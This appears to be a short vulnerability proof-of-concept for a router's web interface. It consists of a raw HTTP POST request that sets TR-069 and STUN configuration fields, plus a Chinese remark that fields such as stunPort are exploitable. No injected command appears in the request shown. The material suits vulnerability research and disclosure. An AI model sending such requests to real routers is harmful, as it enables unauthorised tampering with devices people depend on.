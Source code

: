 


```
POST /cgi-bin/cstecgi.cgi?token=30C851FDA0326579 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 281
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=30C851FDA0326579
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"","stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```



后面的stunPort这些都能打：

![image-20241029084158544](./X6000R/images/image-20241029084158544.png)


